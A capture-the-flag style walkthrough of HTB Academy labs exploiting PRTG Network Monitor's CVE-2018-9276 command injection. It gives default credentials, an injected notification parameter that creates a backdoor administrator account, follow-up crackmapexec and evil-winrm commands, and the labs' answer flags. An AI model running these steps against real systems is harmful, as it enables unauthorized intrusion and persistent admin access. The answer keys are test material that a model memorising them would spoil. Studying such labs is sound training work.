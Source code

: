 # ⚔️ PRTG Network Monitor Attacks

> **🎯 Objective:** Exploit PRTG Network Monitor's command injection vulnerability (CVE-2018-9276) for authenticated remote code execution through notification system abuse.

## Overview

PRTG Network Monitor is an agentless network monitoring software running on Windows. Common ports: **80, 443, 8080**. Vulnerable versions **< 18.2.39** suffer from authenticated command injection in notification parameters.

---

## HTB Academy Lab Solutions

### Lab 1: Version Discovery
**Question:** "What version of PRTG is running on the target?"

```bash
# Nmap service detection
nmap -A -Pn STMIP

# Result shows:
# 8080/tcp open  http  Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
# |_http-server-header: PRTG/18.1.37.13946
```

**Answer:** `18.1.37.13946`

### Lab 2: RCE via Command Injection
**Question:** "Attack the PRTG target and gain remote code execution. Submit the contents of the flag.txt file on the administrator Desktop."

#### Step 1: Access PRTG Interface
```bash
# Navigate to: https://STMIP:8080
# Login: prtgadmin:Password123
```

#### Step 2: Create Malicious Notification
1. **Setup** → **Account Settings** → **Notifications**
2. **Add new notification** (name: any)
3. Enable **"Execute Program"**
4. **Program File:** `Demo exe notification - outfile.ps1`
5. **Parameter:** 
```powershell
test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add
```
6. **Save** notification

#### Step 3: Execute Command Injection
- Click **Test** button to trigger notification
- Command executes: creates user + adds to administrators

#### Step 4: Verify Access
```bash
# Test new admin user
sudo crackmapexec smb STMIP -u prtgadm1 -p 'Pwn3d_by_PRTG!'
# Expected: (Pwn3d!) - confirms admin access
```

#### Step 5: Remote Access & Flag
```bash
# Connect via Evil-WinRM
evil-winrm -i STMIP -u prtgadm1 -p 'Pwn3d_by_PRTG!'

# Read flag
type C:\Users\Administrator\Desktop\flag.txt
```

**Answer:** `WhOs3_m0nit0ring_wH0?`

---

## Attack Summary

**Vulnerability:** CVE-2018-9276 - Authenticated Command Injection  
**Method:** Notification parameter injection → PowerShell execution  
**Requirements:** Valid PRTG credentials  
**Impact:** Full system compromise with administrative privileges  

**💡 Key Point:** PRTG notification system directly passes parameters to PowerShell without sanitization, enabling arbitrary command execution. 